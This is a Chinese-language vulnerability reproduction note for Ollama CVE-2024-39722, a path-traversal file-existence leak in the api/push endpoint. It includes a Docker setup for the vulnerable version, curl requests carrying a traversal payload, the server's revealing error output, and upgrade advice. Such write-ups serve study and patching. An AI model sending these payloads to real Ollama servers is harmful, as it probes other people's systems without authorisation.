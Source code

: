 # Ollama 文件存在性泄露漏洞 CVE-2024-39722

## 漏洞描述

Ollama 0.1.45 及之前的版本中，攻击者可以通过 `api/push` 端点的路径遍历暴露服务器上存在的文件。

当调用 `api/push` 路由并提供一个不存在的路径参数时，服务器会将转义后的 `URI` 直接返回给攻击者，从而泄露目标服务器及执行该请求的用户的文件存在性信息，这一漏洞为攻击者提供了一种探测文件是否存在的手段。

参考链接：

- https://github.com/advisories/GHSA-cfxq-8762-vx3v
- https://oligosecurity.webflow.io/blog/more-models-more-probllms

## 漏洞影响

```
Ollama ≤ 0.1.45 
Fixed in version 0.1.46
```

## 环境搭建

docker-compose.yml

```
services:
  ollama:
    image: ollama/ollama:0.1.45
    container_name: ollama
    volumes:
      - ollama:/root/.ollama
    ports:
      - "11434:11434"

volumes:
  ollama:
```

执行如下命令启动 Ollama 0.1.45 服务，并拉取任意一个模型，模拟真实部署环境，例如 `codegemma:2b` ：

```
docker compose up -d
docker exec -it ollama ollama run codegemma:2b
```

环境启动后，访问 `http://your-ip:11434/`，此时 Ollma 0.1.45 已经成功运行。

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39722/image-20250305140113735.png)

## 漏洞复现

通过 HTTP 暴露服务器目录结构：

```
curl http://your-ip:11434/api/push -d '{ "name": "../../../test../../../:../../../test../../../", "insecure": true, "stream": true }'
-----
{"status":"retrieving manifest"}
{"status":"couldn't retrieve manifest"}
{"error":"stat /root/.ollama/models/manifests/registry.ollama.ai/library/latest: no such file or directory"}
```

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39722/image-20250305140157401.png)

基于服务器目录结构，可探测部署的模型：

```
curl http://your-ip:11434/api/push -d '{ "name": "codegemma:2b", "insecure": true, "stream": true }'
```

![](images/Ollama%20文件存在性泄露漏洞%20CVE-2024-39722/image-20250305140451558.png)

## 漏洞修复

- 升级至最新版本 https://github.com/ollama/ollama
